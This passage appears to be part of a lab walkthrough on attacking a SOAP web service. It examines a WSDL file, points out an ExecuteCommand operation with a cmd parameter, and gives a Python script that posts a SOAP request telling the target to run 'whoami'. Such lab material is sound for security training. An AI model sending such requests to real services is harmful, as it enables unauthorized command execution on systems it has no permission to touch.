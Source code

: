 ```
  
  
  
  
  <wsdl:service name="HacktheboxService">
    
    
    <wsdl:port name="HacktheboxServiceSoapPort" binding="tns:HacktheboxServiceSoapBinding">
      <soap:address location="http://localhost:80/wsdl"/>
    </wsdl:port>
    
    
  </wsdl:service>
  
  
  
  
  
</wsdl:definitions>
```

The first thing to pay attention to is the following.

```
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```

We can see a SOAPAction operation called `ExecuteCommand`.

Let us take a look at the parameters.

```
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```

We notice that there is a cmd parameter. Let us build a Python script to issue requests (save it as client.py). Note that the below script will try to have the SOAP service execute a whoami command.

```
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
